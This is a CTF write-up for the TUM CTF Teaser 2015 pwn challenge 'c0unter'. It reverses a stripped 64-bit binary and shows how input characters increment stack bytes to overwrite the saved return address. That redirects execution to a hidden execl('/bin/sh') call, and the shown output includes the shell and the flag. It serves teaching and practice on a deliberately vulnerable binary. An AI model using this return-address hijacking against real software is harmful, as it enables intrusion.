










# TUM CTF Teaser 2015: c0unter

**Category:** Pwn
**Points:** 25
**Solves:** 11
**Description:**

> Baby's 1st
> 
> [counter](counter)
> 
> nc 1.ctf.link 1031


## Write-up

by [polym](https://github.com/abpolym)

This writeup is based on following writeups:

* <https://0xabe.io/ctf/exploit/2015/10/30/TUM-CTF-Teaser-2015-pwn-counter.html>

### Meta

Keywords:

* Stack Buffer Overflow (`sbo`) (Somewhat)
* Hidden function `execl`

We are given a x86-64bit stripped ELF for Linux:

```bash
$ file counter 
counter: ELF 64-bit LSB  executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.32, BuildID[sha1]=b065123973be4586a6b10f277cda428776bde80b, stripped
```

Running checksec in `gdb-peda`:

```bash
gdb-peda$ checksec 
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : disabled
```

* Only `NX` is enabled, forbidding us from executing crafted shellcode on the stack

Running it:

```bash
$ ./counter 
hello
ehllo
```

* Echos back your input (`hello`) in a randomized order

Decompiling it with `radare2` (`r2 -A ./counter`):

```bash
[0x004005e0]> ii # show imported and used functions
[Imports]
ordinal=001 plt=0x00400550 bind=GLOBAL type=FUNC name=free
ordinal=002 plt=0x00400560 bind=GLOBAL type=FUNC name=__isoc99_fscanf
ordinal=003 plt=0x00400570 bind=GLOBAL type=FUNC name=puts
ordinal=004 plt=0x00400580 bind=GLOBAL type=FUNC name=__libc_start_main
ordinal=005 plt=0x00400590 bind=UNKNOWN type=NOTYPE name=__gmon_start__
ordinal=006 plt=0x004005a0 bind=GLOBAL type=FUNC name=malloc
ordinal=007 plt=0x004005b0 bind=GLOBAL type=FUNC name=exit
ordinal=008 plt=0x004005c0 bind=GLOBAL type=FUNC name=execl

8 imports
```

`[0x004005e0]> VV @ main`:



* Main just calls `fcn.00400720`, lets jump to this `o`ffset with `o 0x00400720` to see this (press `p` once again to also see all offsets):



* `fcn.00400720` calls the `imp`orted function `__isoc99_fscanf`   - we set a breakpoint at the call, addr `0x0040074f`, in `gdb-peda` to see the guessed arguments:

```bash
gdb-peda$ b *0x0040074f
Breakpoint 1 at 0x40074f
gdb-peda$ r
[...]
R15: 0x0
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x400742:    mov    rbx,rsp
   0x400745:    rep stos QWORD PTR es:[rdi],rax
   0x400748:    mov    rdi,QWORD PTR [rip+0x2005b1]        # 0x600d00 <stdin>
=> 0x40074f:    call   0x400560 <__isoc99_fscanf@plt>
   0x400754:    mov    edx,DWORD PTR [rbp+0x0]
   0x400757:    add    rbp,0x4
   0x40075b:    lea    eax,[rdx-0x1010101]
   0x400761:    not    edx
Guessed arguments:
arg[0]: 0x7ffff7dd4640 --> 0xfbad2088 
arg[1]: 0x4008dc --> 0x7331313525 ('%511s')
arg[2]: 0x600d40 --> 0x0 
arg[3]: 0x0 
gdb-peda$ x/wx 0x7ffff7dd4640
0x7ffff7dd4640 <_IO_2_1_stdin_>:        0xfbad2088
```

* Using `x/wx` on the first argument, we see that `0xfbad2088` is actually `stdin`
* So, the call to the `fscanf` function looks like this `__isoc99_fscanf(stdin, "%511s", 0x600d40)` with `0x600d40` being our input buffer, in which our input is stored

From `0x00400794` to `0x004007ae` you see some assembly that seems to modify the stack (look at the `add byte [rsp + rdx], 1` call):



We see a loop from `0x004007a0` to `0x004007ae` (notice the green arrow going from bottom to top of the node) that does the following:

* In `rcx`, the address of the end of our input is stored.
* It stores the hexadecimal representation of the current character of our input with `movzx edx, byte [rax]`
* It increases rax, in which our input buffer address is stored.
* It increments the value at our stack plus the character's hexadecimal representation, e.g. if `rsp` is `0x7fffffffe380` and our input is a newline `\n`==`0xa`, we increment the value at address `0x7fffffffe380`+`0xa`=`0x7fffffffe38a`. See [this writeup](https://0xabe.io/ctf/exploit/2015/10/30/TUM-CTF-Teaser-2015-pwn-counter.html) for a better explanation by example.
* The loop stops when `cmp rax, rcx` is `f`alse, forcing our `rip` to wander to along the red line with line description `f`.

Since we can increment any value from `rsp+0x00` to `rsp+0xff`, it suggests that we can change the return address and thus control `rip`.

As [this writeup](https://0xabe.io/ctf/exploit/2015/10/30/TUM-CTF-Teaser-2015-pwn-counter.html) describes, we can gdb's `i frame` command right before the `fscanf` call to print out information about the current stack frame, including the position of our saved `rip` on the stack:

```bash
gdb-peda$ i frame
Stack level 0, frame at 0x7fffffffe420:
 rip = 0x40074f; saved rip = 0x4005d9
 called by frame at 0x7fffffffe430
 Arglist at 0x7fffffffe378, args: 
 Locals at 0x7fffffffe378, Previous frame's sp is 0x7fffffffe420
 Saved registers:
  rbx at 0x7fffffffe408, rbp at 0x7fffffffe410, rip at 0x7fffffffe418
```

Then, we just calculate the distance between `rip` on the stack and `rsp` using `gdb`'s `distance` command:

```
gdb-peda$ distance $rsp 0x7fffffffe418
From 0x7fffffffe380 to 0x7fffffffe418: 152 bytes, 38 dwords
```

PS: You can also just calculate it by hand, by looking at any `sub rsp, XXX` or `push` instructions before the `fscanf` call:



* Each `push` pushes 8 bytes (64 bit: `8` bytes, 32bit: `4` bytes) on the stack => 16 bytes offset to `rip`
* `sub rsp, 0x88` => `0x88` bytes == `136` bytes offset
* All in all `136`+`16`==`152` bytes offset from `rsp` to `rip`!

This means, we can change the `rip`, if we provide bytes in the range between `152` (`0x98`) to `152+8=160` (`0xa0`):

```bash
$ p -c 'print "\x98\x9c\xa0"*0x100' | ./counter 

Segmentation fault (core dumped)
```

Since NX is enabled (as seen in the `checksec` output), we have to find another way instead of providing shellcode on the stack.

Looking at the imported functions from earlier, we see an `execl` call and try to find it using these steps:

* In `radare2`, go to the `V`isual mode showing the assembly, e.g. with `[0x004005e0]> V @ main`:

* Press `_` to go into the HUD (you can always press `?`  for more information about the current possible commands):

* Search for `execl` by just typing in `execl`:

* Navigate with arrows to `sym.imp.EXECL` and press `ENTER`:

* Jump to the function referencing and thus calling the `execl` function by pressing `x` then `0` for the first xref:

* You then see the call to `execl`:


Since this function is not called in the usual control flow, we redirect `rip` to the beginning of this unknown function calling `execl` to see the arguments for `execl`:

```bash
gdb-peda$ set $rip = 0x004006e0
gdb-peda$ b *0x4006f2
Breakpoint 2 at 0x4006f2
gdb-peda$ c
Continuing.
[----------------------------------registers-----------------------------------]
RAX: 0x0 
[...]
=> 0x4006f2:    call   0x4005c0 <execl@plt>
   0x4006f7:    xor    edi,edi
   0x4006f9:    call   0x4005b0 <exit@plt>
   0x4006fe:    xchg   ax,ax
   0x400700:    sub    rsp,0x8
Guessed arguments:
arg[0]: 0x4008d4 --> 0x68732f6e69622f ('/bin/sh')
arg[1]: 0x4008d9 --> 0x7331313525006873 ('sh')
arg[2]: 0x0 
[...]
```

We see that the call of `execl` is `execl("/bin/sh","sh",NULL)`, which is exactly what we need to have a shell!

Our goal is to change `rip` using our input to the address `0x004006e0` to spawn a shell after the function calling `fscanf` returns.

We just have to calculate the offset difference between the address of the saved `rip` in the binary and `0x004006e0`: `0x004006e0-0x4005d9=0x0107` - so we have to increment the lowest byte of our `rip` address on the stack with `1` and the second lowest byte with `7`.

[This python script](./solve.py) does the job:

```bash
$ p solve.py 
[+] Opening connection to localhost on port 6666: Done
[*] Switching to interactive mode

$ $ ls -l
total 12
-rwxrw-r-- 1 vbox vbox 5384 Jan 24 09:41 counter
-rw-rw-r-- 1 vbox vbox   32 Jan 24 11:53 flag.txt
$ $ cat flag.txt
hxp{0verflow1ng_ch4c4cters_w1n}
$ $ exit
[*] Got EOF while reading in interactive
$ ^D
[*] Closed connection to localhost port 6666
```

The flag is `hxp{0verflow1ng_ch4c4cters_w1n}`.

To see that `rip` changed:

```bash
$ p -c 'print "\x98"*7+"\x99"' > in
$ xxd in 
0000000: 9898 9898 9898 9899 0a                   .........
$ gdb ./counter 
Reading symbols from ./counter...(no debugging symbols found)...done.
gdb-peda$ b *0x4007b0
Breakpoint 1 at 0x4007b0
gdb-peda$ r < in
Starting program: /home/vbox/pwn/tasks/tum/c0unter/counter < in
[...]
   0x4007ae:    jne    0x4007a0
=> 0x4007b0:    movzx  ecx,BYTE PTR [rsp+0x1]
   0x4007b5:    movzx  edx,BYTE PTR [rsp]
[...]
Breakpoint 1, 0x00000000004007b0 in ?? ()
gdb-peda$ x/gx $rsp+0x98
0x7fffffffe418: 0x00000000004006e0
gdb-peda$ c
Continuing.

process 3372 is executing new program: /bin/dash
Warning:
Cannot insert breakpoint 1.
Cannot access memory at address 0x4007b0
```

## Other write-ups and resources

* <https://0xabe.io/ctf/exploit/2015/10/30/TUM-CTF-Teaser-2015-pwn-counter.html>
